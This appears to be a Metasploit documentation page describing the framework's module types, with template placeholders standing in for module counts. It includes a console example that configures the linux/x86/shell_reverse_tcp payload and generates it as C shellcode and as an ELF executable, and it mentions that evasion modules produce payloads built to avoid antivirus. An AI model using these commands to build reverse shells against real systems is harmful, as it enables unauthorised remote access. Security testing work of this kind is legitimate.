 ## Metasploit modules

There are currently {{ site.metasploit_total_module_count }} Metasploit modules:

{{ site.metasploit_nested_module_counts | module_tree: "All Modules", true }}

## Module types

### Auxiliary modules ({{ site.metasploit_module_counts["auxiliary"] }})

Auxiliary modules do not exploit a target, but can perform useful tasks such as:

- Administration - Modify, operate, or manipulate something on target machine
- Analyzing - Tools that perform analysis, mostly password cracking
- Gathering - Gather, collect, or enumerate data from a single target
- Denial of Service - Crash or slow a target machine or service
- Scanning - Scan targets for known vulnerabilities
- Server Support - Run Servers for common protocols such as SMB, FTP, etc

### Encoder modules ({{ site.metasploit_module_counts["encoder"] }})

Encoders take the raw bytes of a payload and run some sort of encoding algorithm, like bitwise XOR. These modules are useful for encoding
bad characters such as null bytes.

### Evasion modules ({{ site.metasploit_module_counts["evasion"] }})

Evasion modules give Framework users the ability to generate evasive payloads that aim to evade AntiVirus, such as Windows Defender,
without having to install external tools.

### Exploit modules ({{ site.metasploit_module_counts["exploit"] }})

Exploit modules are used to leverage vulnerabilities in a manner that allows the framework to execute arbitrary code.
The arbitrary code that is executed is referred to as the payload.

### Nop modules ({{ site.metasploit_module_counts["nop"] }})

Nop modules, short for 'No Operation', generate a sequence of 'No Operation' instructions that perform no side-effects.
NOPs are often used in conjunction with stack buffer overflows.

### Payloads modules ({{ site.metasploit_module_counts["payload"] }})

In the context of Metasploit exploit modules, payload modules encapsulate the arbitrary code (shellcode) that is executed
as the result of an exploit succeeding. This normally involves the creation of a Metasploit session, but may instead
execute code such as adding user accounts, or executing a simple pingback command that verifies that code execution was successful against a vulnerable target.

Payload modules can also be used individually to generate standalone executables, or shellcode for use within exploits:

```msf
msf6 payload(linux/x86/shell_reverse_tcp) > back
msf6 > use payload/linux/x86/shell_reverse_tcp
msf6 payload(linux/x86/shell_reverse_tcp) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf6 payload(linux/x86/shell_reverse_tcp) > set lport 4444
lport => 4444

# Generate a payload for use within C
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f c

# Generate an ELF file for execution on Linux environments
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f elf -o linux_shell
```

### Post modules ({{ site.metasploit_module_counts["post"] }})

These modules are useful after a machine has been compromised and a Metasploit session has been opened. They perform useful
tasks such as gathering, collecting, or enumerating data from a session.
